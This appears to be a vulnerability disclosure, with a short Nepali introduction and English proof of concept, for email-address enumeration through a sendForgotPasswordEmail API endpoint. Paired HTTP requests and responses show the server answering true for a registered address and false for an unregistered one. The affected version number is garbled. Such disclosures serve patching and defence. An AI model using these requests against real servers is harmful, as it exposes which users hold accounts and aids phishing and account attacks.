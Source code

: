 <languages />

परिचय
-----

ई-मेल ठेगाना गणना कमजोरीहरू संस्करण ..7.१ र मुनिको मा अवस्थित छन्।

POC
---

    ################

    Sample HTTP request sent with a registered email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    POST /api/v1/method.callAnon/sendForgotPasswordEmail HTTP/1.1
    Host: localhost:3000
    Content-Length: 122
    Accept: */*
    Content-Type: application/json


    {"message":"{\"msg\":\"method\",\"method\":\"sendForgotPasswordEmail\",\"params\":[\"positive@test.de\"],\"id\":\"3\"}"}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    The server response to a valid email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    HTTP/1.1 200 OK
    X-XSS-Protection: 1
    X-Content-Type-Options: nosniff
    X-Frame-Options: sameorigin
    X-Instance-ID: DQDfuEfNLdbZr3zYH
    Cache-Control: no-store
    Pragma: no-cache
    content-type: application/json
    Vary: Accept-Encoding
    Date: Tue, 03 Nov 2020 12:01:25 GMT
    Connection: keep-alive
    Content-Length: 78

    {"message":"{\"msg\":\"result\",\"id\":\"3\",\"result\":true}","success":true}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    Sample HTTP request sent with a non registered email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    POST /api/v1/method.callAnon/sendForgotPasswordEmail HTTP/1.1
    Host: localhost:3000
    Content-Length: 119
    Accept: */*
    Content-Type: application/json


    {"message":"{\"msg\":\"method\",\"method\":\"sendForgotPasswordEmail\",\"params\":[\"false@test.de\"],\"id\":\"3\"}"}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    The server response to an invalid email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    HTTP/1.1 200 OK
    X-XSS-Protection: 1
    X-Content-Type-Options: nosniff
    X-Frame-Options: sameorigin
    X-Instance-ID: DQDfuEfNLdbZr3zYH
    Cache-Control: no-store
    Pragma: no-cache
    content-type: application/json
    Vary: Accept-Encoding
    Date: Tue, 03 Nov 2020 12:03:08 GMT
    Connection: keep-alive
    Content-Length: 79

    {"message":"{\"msg\":\"result\",\"id\":\"3\",\"result\":false}","success":true}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~